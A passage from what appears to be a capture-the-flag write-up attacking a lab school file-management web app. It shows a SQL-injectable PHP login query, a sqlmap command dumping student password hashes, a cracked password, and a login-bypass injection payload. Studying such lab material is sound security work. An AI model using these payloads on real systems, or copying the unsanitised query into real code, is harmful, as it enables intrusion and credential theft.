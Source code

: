 ```bash

```

same hash for admin, but different for other users. Let's see if these crack... nope

on further inspection there are student accounts on the School File Management System, let's leak that table

table and column names found from source code to save time dumping them aswell

```php
# login_query.php
$query = mysqli_query($conn, "SELECT * FROM `student` WHERE `stud_no` = '$stud_no' && `password` = '$password'") or die(mysqli_error());
```

```bash
> sqlmap -r admin.req --dbms=mysql -D db_sfms -T student -C stud_no,password --dump

+---------+----------------------------------+
| stud_no | password                         |
+---------+----------------------------------+
| 12345   | 1a40620f9a4ed6cb8d81a1d365559233 |
| 23347   | abb635c915b0cc296e071e8d76e9060c |
| 31234   | a2afa567b1efdb42d8966353337d9024 |
| 43347   | a1428092eb55781de5eb4fd5e2ceb835 |
+---------+----------------------------------+


```
Let's see if we can crack these

finally, we get a hash to crack this time

```
31234:a2afa567b1efdb42d8966353337d9024:autodestruction
```
cross referencing to the student accounts in the webapp, this pass word is for Kelly Shane

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529173008.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529173008.png){:.glightbox}


#### file upload
Using the same type of sql injection on the student login at 
http://seventeen.htb/vendor/oldmanagement/

we can get onto the student profile

```
stud_no=12345';-- -&password=asd&login=
```

